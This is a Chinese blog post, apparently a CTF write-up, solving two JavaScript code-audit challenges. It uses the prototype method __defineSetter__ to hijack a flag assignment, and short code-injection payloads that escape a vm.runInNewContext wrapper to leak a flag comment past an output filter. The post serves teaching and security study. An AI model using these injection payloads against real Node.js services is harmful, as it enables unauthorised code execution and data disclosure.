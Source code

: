 ```yaml
---
title: 两道有趣的JS代码审计题目
published: 2023-08-12
description: ''
image: ''
tags: ['post', '编程', '安全', 'CTF', 'JS', '代码审计']
category: '周报'
draft: false
lang: ''
---
```

 两道有趣的JS代码审计题目



<!-- ![image](./attachments/bafybeib6gtdgp6urih4dt7zt6mfca6ertgpezp4t3s2la64tkgubde43qu.png) -->


 converter

题目是一个网页，如下：

<!-- ![DraggedImage](./attachments/bafkreicxq6a63vkab5pc7j3dfqohlyes54pytwerdfziok4ivddg4tqtye.png) -->


POST两个参数， `Input` 即输入的数据， `converter` 代表选择的转换器

<!-- ![DraggedImage-1](./attachments/bafkreia77bzvog2ei6qopoku3sodshr4e6m5nth7e53gmvnhfmtpxd4bha.png) -->




分析源码，可以看到有三个 `converter` ，即代表着三种不同的encode方式，其中 `flagConverter` 里面有flag

但是限制了 `request.body.converter`，不能出现 `FLAG`

```ts
  if (request.body.converter.match(/[FLAG]/)) {
    throw new Error("Don't be evil :)");
  }

  if (request.body.input.length < 20) {
    throw new Error('Too short :(');
  }

  if (request.body.input.length > 1000) {
    throw new Error('Too long :(');
  }
```

这里研究了之后确实不存在突破办法了🤣

 分析

注意到真正调用 `converter` 的代码， 我们输入的两个参数 `req.body.converter` 和 `req.body.input`，其中 `req.body.converter` 是作为 `converters` 的属性名，即我们可以控制 `conveters`的任意一个属性（除了这个属性名不能含有 `FLAG` 之外）

> 通过 `await new Promise` 代码是在尝试将回调式的异步操作转换为Promise风格的操作，以便使用 await 来等待执行结果，可以忽略

并且我们发现， `converters` 是一个 const 类型，并且每次执行 `encode` 操作，都会对 `converters` 做一次赋值（理论上直接写死就行了吧，没必要每次请求都这么干）

```ts
  converters['base64'] = base64Converter;
  converters['scrypt'] = scryptConverter;
  converters[`FLAG_${request.session.sessionId}`] = flagConverter;

  const result = await new Promise((resolve, reject) => {
    converters[request.body.converter](request.body.input, (error, result) => {
      if (error) {
        reject(error);
      } else {
        resolve(result);
      }
    });
  });
```

而我们知道，在JS中，虽然一个对象的属性看上去只有那么点，但是由于JS特有的原型链继承关系，就会导致 `Object` 对象的属性也被继承过来（因此可以逐一去对这些属性做尝试）


<!-- ![DraggedImage-2](./attachments/bafkreif5wbhegg25onmmjwsq7qaifyfunmtb3lthkb2benff6hku62nkxe.png) -->



其中这个 `__defineSetter__ ` 属性很有意思，有点类似反射，可以给对象的一个属性做一个代理，正常写法其实是这样的：

```ts
const obj = {
  a: 1
};

// 使用 __defineGetter__
obj.__defineSetter__('a', function(res) {
	console.log("get res: " + res);
});
```

如果我们定义了 setter ，那么后续赋值的时候， 赋值等式的右边值就会作为 setter 函数的第一个参数传进来

<!-- ![DraggedImage-3](./attachments/bafkreievolezdquoz4oe2tfskwynqusjhjegevsvrpix7ywnuot6rmqunu.png) -->


所以，当我们输入 `input= FLAG_***SESSION*** ` （input并没有不允许输入FLAG字符串），`converter = __defineSetter__ ` 时，代码变为：

```ts
converters["__defineSetter__"]("FLAG_***SESSION***", (error, result) => {
    if (error) {
        reject(error);
    } else {
        resolve(result);
    }
});
```

这样当我们重写完对象的 `FLAG_***SESSION***`  对应的 setter 时，这个网页先不动！

后续再新开一个网页去访问，此时触发：

```ts
converters[`FLAG_${request.session.sessionId}`] = flagConverter;
```

可以看到 `flagConverter` 就会作为第一个参数传入到函数

```ts
(error, result) => {
    if (error) {
        reject(error);
    } else {
        resolve(result);
    }
}
```

此时 result 的结果自然就是 error , 即 `flagConverter.toString()` 的结果

回到我们的第一个网页，此时就能看到：

<!-- ![DraggedImage-4](./attachments/bafkreifvhhnyeyudnsmj2orujo7zkcl3qn7hvkfyuudsqq2g5nqpvolroi.png) -->


 Kantan Calc


这道题目也很有意思，是我见过的JS代码审计中比较新颖的，巧妙地用沙箱逃逸来误导你，实际利用的是JS很常见的一个特性

CTF中的经典计算器前端：
<!-- ![DraggedImage-5](./attachments/bafkreifatxcx4sxx6wowh3ydcpkvwl6fgjorfawfu76mbzdonxsbx2ziha.png) -->



看代码：

```ts
app.get('/', function (req, res, next) {
  let output = '';
  const code = req.query.code + '';
  console.log(code.length); // 打印输入的代码长度
  if (code && code.length < 30) {
    try {
      const result = vm.runInNewContext(`'use strict'; (function () { return ${code}; /* ${FLAG} */ })()`, Object.create(null), { timeout: 100 });
      output = result + '';
      if (output.includes('flag')) {
        output = 'Error: please do not exfiltrate the flag';
      }
    } catch (e) {
      output = 'Error: error occurred';
    }
  } else {
    output = 'Error: invalid code';
  }

  res.render('index', { title: 'Kantan Calc', output });
});
```

关键代码就是在 `vm.runInNewContext` 那一行，即输入的内容会被当做代码执行，比如输入 `2*2`

实际在vm中执行的代码就是：

```ts
'use strict';
(
	function(){
		return 2*2; /* flag{fake_flag} */
	}
)()
```

实际就是一个立即执行函数，但是这里要注意：

```ts
vm.runInNewContext('', Object.create(null))
```

`Object.create(null)` 实际上是创建了一个没有任何原型链的对象，是一个绝对“干净”的对象

因此，最常用的一种沙箱逃逸是没有办法了（我就懒得写了）

 解法

在 JavaScript 中，可以通过将函数体转换为字符串来获取函数体：

```ts
function a() {}
console.log(a+'')
// "function a() {}"
```

这样就可以让代码内的flag注释信息打印出来了，但是就算打印出来还是会被后面的if给拦截，这应该怎么办呢？

答案就是数组，利用函数 toString 弱类型转换，返回char数组（绕开if检测），同时保证payload长度小于30

那么我们先直接闭合前面的函数，然后开一个新的函数，即输入：

```ts
},function p(){return[...p+1]
```

那么此时：

```ts
'use strict';
(
	function(){
		return 
	},
	function p(){return[...p+1]; /* flag{fake_flag} */
	}
)()
```

那么第二个函数p执行的时候，先执行加法，抓为字符串，然后解构为数组，就绕开了检测

在看wp的时候还发现有另一种思路：

```ts
[...arguments[0]+0]})(a=>{
```

实际执行的代码：

```ts
'use strict';
(
	function(){
		return [...arguments[0]+0]}
)
(a=>{
			; /* flag{fake_flag} */
	}
)()
```

等于先定义了一个函数

```ts
(
	function(){
		return [...arguments[0]+0]
	}
)
```

然后调用的时候传递了一个参数， `(a => {;/*flag{fake_flag}*/})`，那么自然这个函数就会被当做参数 `arguments` 传递进去，同样的道理（不过这种情况会报错了，因为返回的是个数组无法继续函数调用）


 总结

这两道题目也都打包Docker镜像了，有需要的可以自取：

```ts
docker run -d --restart=always -p 3000:3000 rayepeng/kantan_calc:latest
docker run -d --restart=always -p 3000:3000 rayepeng/convert:latest  
```

其实JS的很多特性都是可以用来出题的，但是却很少像PHP那样，有各种变种且好玩的代码审计题，后续准备在这里多思考下，尝试自己也出几道有趣的结合JS特性的审计题目




[]()